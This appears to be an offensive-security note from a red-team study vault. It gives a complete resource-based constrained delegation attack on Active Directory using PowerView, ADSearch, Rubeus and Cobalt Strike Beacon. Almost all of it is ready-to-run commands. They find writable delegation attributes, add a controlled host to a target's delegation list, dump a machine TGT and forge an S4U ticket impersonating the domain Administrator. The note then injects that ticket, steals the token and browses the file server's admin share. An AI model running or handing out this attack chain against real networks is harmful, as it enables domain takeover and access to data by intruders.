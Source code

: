
> [!NOTE] **Note**
> This is much easier to do through a SOCKS proxy using PowerView
> 
> Setup found [here](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F10.%20Pivoting%2F_%20Main)

Import PowerView
```powershell
ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Setup credentials to be used
```powershell
‌$Cred = Get-Credential CONTOSO\rsteel
```

Find principals that have WriteProperty privileges on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of computers.
```powershell
Get-DomainComputer -Server 'lon-dc-1' -Credential $Cred | Get-DomainObjectAcl -Server 'lon-dc-1' -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier

Get-DomainComputer -Credential $Cred | Get-DomainObjectAcl | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -eq 'WriteProperty' } | select ObjectDN,SecurityIdentifier
```

> OR
 
```powershell
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json

execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
```

 > OR

```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

```

Resolve the SID to a domain group/user.
```powershell
Get-ADGroup -Filter 'objectsid -eq "SID"' -Server 'lon-dc-1' -Credential $Cred
```

Check for any existing RBCD configurations.
```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

Add RBCD between _RBCD machine_ and _controlled host_, making sure not to overwrite the existing entry.
```powershell
$existing_entry = Get-ADComputer -Identity 'existing_RBCD_entry' -Server 'lon-dc-1' -Credential $Cred

$controlled_host = Get-ADComputer -Identity 'controlled_host' -Server 'lon-dc-1' -Credential $Cred

Set-ADComputer -Identity 'RBCD_Machine' -PrincipalsAllowedToDelegateToAccount $existing_entry,$controlled_host -Server 'lon-dc-1' -Credential $Cred
```

Verify that controlled host was added was added.
```powershell
Get-ADComputer -Identity 'RBCD_host' -Properties PrincipalsAllowedToDelegateToAccount -Server 'lon-dc-1' -Credential $Cred | select Name,PrincipalsAllowedToDelegateToAccount
```

In the high-integrity Beacon, obtain a TGT for the controlled host.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```

Request a usable service ticket for cifs/RBCD_host impersonating the default domain administrator.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:ENC-JMP-1$ /impersonateuser:Administrator /msdsspn:cifs/enc-fs-1 /nowrap /ticket:
```

Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist
ls \\lon-fs-1\c$

rev2self       <--- Drop impersonation
kill [PID]
```